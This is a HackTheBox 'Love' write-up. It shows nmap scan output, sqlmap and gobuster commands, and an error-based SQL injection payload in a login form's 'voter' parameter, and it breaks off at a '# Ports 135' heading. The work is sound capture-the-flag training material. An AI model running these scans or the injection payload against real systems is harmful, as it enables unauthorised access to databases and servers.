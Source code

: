 ```yaml
---
layout: post
title:  "HackTheBox: Love" 
description: Write up and complete walkthrough of HackTheBox's Love
---
```


**Overview**

# Initial Scan

```nmap
# Nmap 7.91 scan initiated Fri Jul  2 15:58:46 2021 as: nmap -sC -sV -oA nmap/love -v 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.095s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
|_SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   RTSPRequest, SMBProgNeg, TerminalServer, ms-sql-s: 
|_    Host '10.10.14.11' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=7/2%Time=60DF7008%P=x86_64-pc-linux-gnu%r(RTS
SF:PRequest,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.11'\x20is\x20not\x2
SF:0allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBPro
SF:gNeg,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.11'\x20is\x20not\x20all
SF:owed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalSe
SF:rver,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.11'\x20is\x20not\x20all
SF:owed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(ms-sql-s,4
SF:A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.11'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h45m56s, deviation: 4h02m31s, median: 25m54s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-02T13:25:08-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-02T20:25:07
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 15:59:20 2021 -- 1 IP address (1 host up) scanned in 33.84 seconds
```

- Port 80 (http) is open, running on an `Apache httpd 2.4.46` webserver.
- Port 135 (msrpc) is open.
- Port 139 and 445 are open, all three ports related to `SMB protocol`.
- Port 3306 (mysql) is open and running a `MySQL` database.
- Port 443 (https) is open and running an `Apache httpd 2.4.46` webserver.
- Port 5000 (http) is also open and is also running an instance of `Apache httpd 2.4.46` webserver.


# Webserver on port 80

On entering the website we are greeted with a login page:

![[Pasted image 20210702170608.png]]

Knowing that there is a mysql database running on the backend, this box will probably require some sort of sql injection. After trying out the initial typical vectors, I started up sqlmap on the background and continued poking myself.

Route the POST request over to `burpsuite` and copy the request into a file by sending it to the `repeater` and right clicking `Copy to file`. 

Then use sqlmap using the request file along with `--batch` and `--level` to let it run automatically at the given level. You can read more about levels and specific flags of sqlmap [here](https://github.com/sqlmapproject/sqlmap)
```bash
sudo sqlmap -r sql.req --batch --level 5
```

Along with sqlmap, it's good to have some sort of recon going for enumerating the website's possible other pages.

For this we could use `gobuster`, `ffuf`, `dirbuster`, etc.

```bash
gobuster dir -u http://10.10.10.239 -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-words.txt -o gobuster.out
```

# SQLMap injection located

After some time, sqlmap was able to find a vulnerable point within the `voter` parameter:

```bash
sqlmap identified the following injection point(s) with a total of 904 HTTP(s) requests:
---
Parameter: voter (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: voter=d'||(SELECT 0x77487063 WHERE 2146=2146 AND (SELECT 6518 FROM(SELECT COUNT(*),CONCAT(0x71717a7871,(SELECT (ELT(6518=6518,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=d&login=
---
```


# SQLi rabbit hole

After an unrealistic amount of time trying to make the sqli found by sqlmap to work, I decided to move on to try and find something else, as this was not achieving anything unfortunately.

# Ports 135